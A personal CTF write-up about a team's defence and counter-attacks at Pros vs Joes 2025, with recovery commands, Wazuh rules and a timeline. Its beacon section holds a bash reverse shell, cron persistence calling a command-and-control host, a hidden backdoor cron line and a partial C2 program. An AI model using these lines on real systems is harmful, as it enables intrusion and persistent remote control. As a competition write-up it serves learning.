






So... we just wrapped up Pros vs Joes CTF 2025, and holy shit, what a ride. Team B4FFL3G4P came together and made some shit happen. I tried for a few weeks prior to set up a few tools and workflows to use during the PVJ CTF. I'm happy with the progress on most of them, just sad I didn't get to use them during the game. Honestly, I feel like I kinda get overwhelmed from all the in-person interaction and the heavy involvement in the game. You don't know how many times I realized I don't know what I'm doing. Thank god for the internet and Cursor. In the moment, you think, do this thing, and when you go to commit you have 0 idea what the hell you are doing. While you're struggling with trying to type any commands or even ask your AI friend the question of what to commit, CHAOS... I mean the red team is literally fucking us the entire game - Though this is the "spirit" of the game. The key difference from real-world incident response? In the real world, we cut the internet, not allowing the communications, and promptly make necessary remediations to get the services back up. In this game our priority is keeping our scored services running for Scorebot while maintaining accessibility for the Bad Actors (Red team). Of course, this doesn't mean we can't be creative and have a way to make it harder on them. Maybe next year I'll have a better plan.
Important CTF Rules: We couldn't make any changes that would lock the other teams out of our systems. The whole point was to maintain accessibility for the "bad actors" while still keeping our scored services running. This meant no complete network isolation and no changes that would completely break their ability to operate. It was a delicate balance - we had to keep services up for Scorebot while keeping the game playable for the red team. Other key rules included no physical access to enemy machines, no DDoS attacks, and maintaining the spirit of the exercise as an educational experience.
Mail server recovery (fixing Postfix on mail0, port 25 issues, SASL authentication), DNS infrastructure (BIND9 setup on ns0, zone management, anomaly detection), user account management (cleaning up red team accounts, creating admin_clean/backup_admin, deploying universal SSH keys), threat hunting (process analysis, network monitoring, IOC collection), forensics analysis (UAC tool collection, analyzing icanhasaccess activity, reviewing auth logs), attack automation (Day 2 scripts, network scanning, credential testing), pfSense firewall management (password resets, configuration), offensive operations (deploying persistence.sh and troll.sh scripts, custom malware deployment, running annoying website with troll/bad Java content, leaving "I'll be back" messages on blue team screens, psychological warfare campaigns), web server setup (file sharing, documentation, offensive platform), and comprehensive Wazuh EDR policies for Windows/Linux.
Leadership (AKA The Chaos Coordinators)
- Me (Forgetfulelephant): Co-captain, strategic mess-maker, and the guy who spent way too much time building tools that we barely used (more on that later)
- Punch Stain: Co-captain, pfSense wizard, and the equivalent of a Swiss Army knife in one hand and a IPA in the other. This dude was everywhere - firewall rules, network configs, you name it. He even had the redteam questioning how he was keeping the pfSense running and working... "Is anyone using rules to block the red team?" - asked the gold team. Cheeky fucker answered with "I'm not sure I should disclose this...But this is what I'm doing" explaining that he was indeed not breaking the rules and doing something pretty fucking clever with what he found in the firewall configs..
The Heavy Hitters
- Coldren: This guy is amazingly talented, smart, and experienced. The whole game he was handling task after task - going through network pcaps finding bad, setting up RunZero and Wazuh and installing agents, working on Linux machines and kicking out bad and keeping services running.
- outofmemory: Our DNS champion. He got us tons of points and learned a lot. He was constantly working on Linux machines and specifically keeping our DNS working on BIND9.
- br_tny: Our Windows champion. Setting up STIGs, GPOs, and other things to try and kick the bad guys out. Worked on the Windows machines providing user accounts to the grey team and WAY more.
- Shawn: Helped with both Windows and Linux, and specifically getting us back into our Windows machines when some of our controls backfired and locked even us out. He used Juicy Potato (Sharp Potato/Sweet Potato/ Rotten PotatoNG) to escalate a user account to NT AUTHORITY/SYSTEM and got us back into the windows DC.
- Oscar: My red team ally. He assisted in getting us on Linux machines and dropping our beacons. He also set up a way to install Wazuh to more machines. Got services running on linux machines, etc.
- b4k3ry: Another red team ally. Grabbing shells on enemy boxes through different services and automating our beacons.
Mail Server Hell - The Postfix Saga
So there was this mail server, mail0, that was completely fucked. Postfix was masked, inactive, had SASL authentication issues, and wasn't listening on port 25. The `mail` command was missing entirely.
# Mail server recovery scripts I created fix_mail0_final.sh fix_port25.sh fix_postfix.sh setup_mail0_services.sh # Example of the SASL authentication fix sudo postconf -e 'smtpd_sasl_auth_enable = yes' sudo postconf -e 'smtpd_sasl_security_options = noanonymous' sudo systemctl restart postfix
DNS Machine Cleanup - The User Management
On the DNS machine (ns0), we used the cleanup script to remove red team accounts and set up our own access:
# Cleanup script for ns0 clean_and_create_accounts.sh # What it did: # - Removed red team users (icanhasaccess, goldteamscoring) # - Created our admin accounts (admin_clean, backup_admin) # - Deployed SSH keys for access # - Set up proper user permissions # Example commands from the script: sudo userdel -r icanhasaccess sudo userdel -r goldteamscoring sudo useradd -m -s /bin/bash admin_clean sudo usermod -aG sudo admin_clean ssh-copy-id -i universal_key.pub admin_clean@ns0
User Account Cleanup - The Red Team Hunt
Created scripts to clean up red team accounts and set up our own:
# Account cleanup scripts clean_and_create_accounts.sh cleanup_ns0_users.sh deploy_universal_key.sh # Remove red team users sudo userdel -r icanhasaccess sudo userdel -r goldteamscoring # Create our admin accounts sudo useradd -m -s /bin/bash admin_clean sudo usermod -aG sudo admin_clean
Threat Hunting - The UAC Forensics Adventure
Analyzed Unix Artifact Collector (UAC) data from podctl0. Found legitimate red team activity from July 27 (Ansible automation deployment) and August 4 (active session with UAC tool running).
# Forensics analysis commands grep "icanhasaccess" auth.log* grep "Jul.*icanhasaccess" auth.log* ps aux | grep icanhasaccess
Attack Automation - The Day 2 Planning
Created comprehensive attack scripts for Day 2 operations:
# Attack automation scripts day2_attack_scripts.sh day2_attack_improved.sh day2_attack_plan.md # Network scanning example nmap -sS -p 22,25,80,443 100.80.4.0/24 nmap -sS -p 22,25,80,443 100.80.6.0/24 nmap -sS -p 22,25,80,443 100.80.8.0/24
I ended up using persistence.sh, troll.sh, tried deploying the c2.cpp malware (never verified if it worked), had my webpage running for the troll/annoyingsite/badjava stuff, and even tried messing with the blue team joes with notes on their screens that I would be back.
Dropping Beacons
We deployed various beacons across enemy systems to maintain persistence and establish command & control channels. These included:
# Beacon deployment examples # Simple reverse shell beacon bash -i >& /dev/tcp/10.15.0.22/4444 0>&1 # Cron-based persistence beacon echo "*/5 * * * * curl http://10.15.0.22/beacon" | crontab - # SSH key-based beacon ssh -i ~/.ssh/universal_key admin_clean@enemy-box # Web-based beacon (hidden in legitimate traffic) curl -s "http://legitimate-site.com" | grep -q "beacon" && curl "http://10.15.0.22/c2"
The beacons were designed to blend in with normal traffic while providing us with access to enemy systems. We had to be careful not to make them too obvious since the blue teams were actively hunting for them.
# Persistence script example #!/bin/bash # Create hidden persistence mechanisms echo "*/5 * * * * /tmp/.hidden_backdoor" >> /tmp/crontab chmod +x /tmp/.hidden_backdoor
# Troll script example
#!/bin/bash
# Annoying desktop notifications
while true; do
notify-send "You've been hacked!" "Just kidding... or am I?"
sleep 30
done
# c2.cpp example
#include <iostream>
#include <curl/curl.h>
#include <json/json.h>
#include <openssl/evp.h>
std::string base64Decode(const std::string &encoded) {
}
void run() {
std::string url = base64Decode("Encoded string here");
std::string start = base64Decode("other encoded string here");
std::string end = base64Decode("1 more encoded string here");
if (controll.isMember("run_commands")) {
std::string command = controll["run_commands"].asString();
}
}
int main() {
if (!checkForRoot()) {
std::cout << "This must be run as root (sudo)" << std::endl;
return 1;
}
std::cout << getBanner() << std::endl;
run();
return 0;
}
Web Server Setup
Set up a web server for file sharing and offensive platform:
# Web server setup python3 -m http.server 8080 --bind 0.0.0.0 # File sharing for tools ln -s /path/to/tools /var/www/html/tools
Created comprehensive EDR policies for both Windows and Linux systems:
# Linux EDR Policy Example <rule id="100001" level="12"> <if_sid>0</if_sid> <match>ptrace</match> <description>Linux EDR: Process injection attempt detected</description> </rule> # Windows EDR Policy Example <rule id="200001" level="12"> <if_sid>0</if_sid> <match>powershell.*-enc</match> <description>Windows EDR: Encoded PowerShell execution detected</description> </rule>
Here are screenshots captured during the CTF showing red team activity on our systems:
 





These screenshots show the red team's offensive operations against our infrastructure during the CTF. They demonstrate the activity and sophistication we were dealing with throughout the event. In all honesty, these guys on the red team had so many levels of persistence, exploitation, and pure troll. We had Windows and Linux machines that were fully fucked. Windows machines had rootkits, side-loaded DLLs, fileless malware, replaced binaries, trojans, gooses, and so many other things that I didn't even get to scratch the surface of. I really wanted to dive into this portion, grabbing triages so I could look at memory and grabbing the packets to correlate. The Linux machines were the same... Man, I love this shit so much I genuinely want to learn more and get better at not only understanding but having the experience to not have to fucking Google or ChatGPT the commands or things I need. FUCK, I'm retarded tbh. The goose sure does make me happy though.
1. Communication is key - When everyone's running around like headless chickens, clear communication becomes even more critical.
2. Have a plan, but be flexible - My pre-game tools were great, but the reality of the CTF meant I had to adapt constantly.
3. Know your team's strengths, But push eachother to learn and grow. - Let people do what they're good at. But during the game we were all learning as we went and I was impressed with how much we were able to do.
4. Document everything - When you're in the middle of chaos, good documentation saves lives.
CTF Factory, Dichotomy, and the Gold team did fantastic jobs with this event. I feel that they are running a great show and providing people wonderful opportunities.
Overall, I feel like I mostly helped every individual keep to what they were doing the majority of the game. I facilitated a few points grabs from the grey team who asks for specific things like IT stuff - "can you set up these users for access", "can you install an EDR and give us some detection policies", and so on. I worked on trying to grab some artifacts for analysis, unpacked some information on the network traffic captures, and dropped a few beacons.
Personally I had a goal prior to the game and worked hard on it, but I didn't really get to use much. And I hope to change that next year... being added on as staff last minute and co-leading the team I felt a bit unsure of what I was supposed to be doing. I'm glad I was able to Play and help out as much as I could.
Here's a chronological breakdown of key actions taken by team members during the CTF:
DAY 1 - AUGUST 4, 2025 08:00 AM - Team Setup (All) 10:31 AM - Initial Access Established (All) 10:36 AM - pfSense Analysis Begins (Punch Stain) 10:39 AM - Cron Job Analysis (coldren) 10:44 AM - Malicious Activity Identified (Punch Stain) 12:00 PM - Windows Compromise Discovered (Punch Stain) 12:22 PM - UAC Dump Shared (Outofmemory) 12:29 PM - Linux SSH Keys Identified (Punch Stain) 12:33 PM - sshd_config Checked (Outofmemory) 12:44 PM - Subnet Info Requested (Viktorn) 12:59 PM - Malicious SSH Keys Removed (coldren) 01:25 PM - Single User Mode Boot (Punch Stain) 01:25 PM - Major podctl0 Updates (Outofmemory) 01:33 PM - orangehrm0 Cleanup (coldren) 01:44 PM - orangehrm0 Lockdown (Uscar) 02:14 PM - Windows 8-2 Recovery (TheGwar) 02:24 PM - Ubuntu Pro Setup (Outofmemory) 02:35 PM - Subnet Info Requested (Viktorn) 02:50 PM - DNS Record Provided (Outofmemory) 02:54 PM - Zone File Shared (Outofmemory) 03:35 PM - drupald IP Provided (Uscar) 03:44 PM - Linux Cleanup Workflow (Anthony) 03:55 PM - Shell Access Method Found (Uscar) 04:10 PM - Shell Procedures Updated (Outofmemory) 04:12 PM - Elevation Method Discovered (Uscar) 04:36 PM - Cookie Puzzle Solved (Uscar) 05:18 PM - Forensics Tool Provided (coldren) 05:58 PM - Remediation Procedure (Outofmemory) 06:00 PM - Windows 8-2 Fixed (TheGwar) 06:00 PM - Grey Team Service Request (All) 06:00 PM - AD Accounts Provisioned (All) - 69 points earned DAY 2 - AUGUST 5, 2025 09:33 AM - pfSense Config Shared (Punch Stain) 09:46 AM - Windows Hardening Started (br_ttney) 09:54 AM - Windows 10-3 Password Reset (br_ttney) 10:02 AM - Windows 12 Setup (br_ttney) 10:35 AM - Beacon Server Token (Anthony) 10:35 AM - BT2/BT3 Hosts Found (coldren) 10:38 AM - BT4 Host Found (coldren) 10:55 AM - Team Token Provided (Punch Stain) 11:03 AM - Beacon Submission Command (Anthony) 11:04 AM - SSH Access to BT3 (Uscar) 11:25 AM - Flag Submission Process (Anthony) 11:26 AM - Persistent Beacon Script (Uscar) 11:44 AM - New BT2 Host Found (coldren) 11:47 AM - BT3 ns1 Access (coldren) 11:54 AM - Game URL Shared (Anthony) 12:04 PM - IP Provided to Viktorn (Anthony) 12:08 AM - Admin User Standardization (coldren) 12:11 AM - DNS Zone File Shared (Outofmemory) 12:12 PM - User Deletion Script (coldren) 12:39 PM - Memory-Only Execution (coldren) 01:07 PM - Hosts List Updated (coldren) 12:01 PM - Back in DC (br_ttney) 12:38 PM - Wazuh Agent Installation (coldren) 01:46 PM - Wazuh Console Access (br_ttney) 01:57 PM - BT2 Access Confirmed (coldren) 02:01 PM - Previous Work Confirmed (Uscar) 03:03 PM - Reverse Shell Established (B4k3rY) 04:17 PM - Persistent Beacon Script (Punch Stain) 04:29 PM - Script Execution (coldren) 04:42 PM - QuickAndDirty Strategy (Uscar) 05:18 PM - SMB Vulnerability Alert (coldren) 05:59 PM - Wazuh XDR Project Completed (All) - 30,000 JoeCoin earned
This timeline shows the coordinated effort across all team members, with each person contributing their expertise to different aspects of the CTF. The team successfully balanced defensive operations, offensive activities, and business service requests throughout the event.